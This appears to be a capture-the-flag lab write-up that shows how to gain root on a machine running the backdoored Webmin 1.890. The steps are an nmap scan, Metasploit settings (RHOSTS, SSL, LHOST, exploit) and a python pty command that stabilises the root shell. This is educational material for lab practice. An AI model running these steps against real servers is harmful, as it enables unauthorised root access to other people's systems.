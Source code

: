```yaml
---
layout: default
title : muzec - Source Writeup
---
```


![Image](https://miro.medium.com/max/700/1*b4_Rxzg7uAduZriP-QX7Ig.jpeg)

```Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.```

We always start with an Nmap scan let hit it ```nmap -sC -sV -oA nmap IP address.```

![Image](https://miro.medium.com/max/700/1*WYJ67eGKOzmD16XW_rUgJg.png)

Two open ports 22 ssh and 10000 MiniServ 1.890 i think the web server i try accessing the port 10000.

!{Image](https://miro.medium.com/max/700/1*XdGYLcsrrP4ATWPu8U9dZQ.png)

This web server is running in SSL mode. Try the URL https://ip-10-10-112-198.eu-west-1.compute.internal:10000/ instead.

skipping the warning i try to do some research on the web server luckily i hit a jackpot on Webmin website about the Webmin version 1.890.

Webmin version 1.890 was released with a backdoor that could allow anyone with knowledge of it to execute commands as root.

![Image](https://miro.medium.com/max/700/1*7cQpmjdn4njAV5kwzBBa5A.png)

Let launch our Metasploit.

![Image](https://miro.medium.com/max/700/1*SP2FRgDvSLlS4OGQrRFLaQ.png)

Searching the web server version MiniServ 1.890 boom we found our exploit let set it up and get ready to exploit.


![Image](https://miro.medium.com/max/700/1*ePTgZFlKdD1t_eEqUiJ1yg.png)

```set RHOSTS Machine IP address.```

```set SSL true since we know this web server is running in SSL mode.```

```set LHOST Internal Virtual IP Address Your VPN.```

```exploit.```

![Image](https://miro.medium.com/max/700/1*61qeMdgEE1wLMnSFgRUy3Q.png)

Boom we have root shell we can spawn a TTY shell to make it more stable ```python -c ‘import pty; pty.spawn(“/bin/bash”)’```

![Image](https://miro.medium.com/max/700/1*-vV-HtoAqk4WGKUhHOxRUw.png)

Now let get User flag and root flag in each directory.

![Image](https://miro.medium.com/max/700/1*vP5XLy0hs7X1omLbF4Au6w.png)

![Image](https://miro.medium.com/max/700/1*o2hIj5agfTtEvyxnx63LtA.png)


<br> <br>
[Back To Home](../index.md)
<br>

